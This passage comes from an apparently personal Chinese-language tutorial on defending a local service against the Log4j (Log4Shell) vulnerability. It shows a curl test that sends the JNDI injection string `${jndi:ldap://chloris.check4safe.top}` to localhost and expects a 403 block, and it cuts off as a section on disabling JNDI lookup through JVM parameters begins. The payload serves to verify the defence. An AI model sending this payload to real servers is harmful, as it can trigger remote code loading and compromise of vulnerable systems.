       ![1742219066595](image/record/1742219066595.png)

##### 5. 测试 Log4j 漏洞防护效果
   - 使用 `curl` 发送包含 `${jndi:ldap://chloris.check4safe.top}` 的请求，测试 Log4j 漏洞防护效果。
      ```bash
      curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://localhost:8080/hello -vv
      ```
      - 如果配置正确，请求应该被拦截，返回 `403 Forbidden` 和我之前配置的错误信息。
      ![1742800417881](image/record/1742800417881.png)

- 完成 !

---

#### 第三种方法: 通过JVM参数禁用JNDI查找

##### 1. 分析当前环境

首先，需要分析被攻击的容器环境：
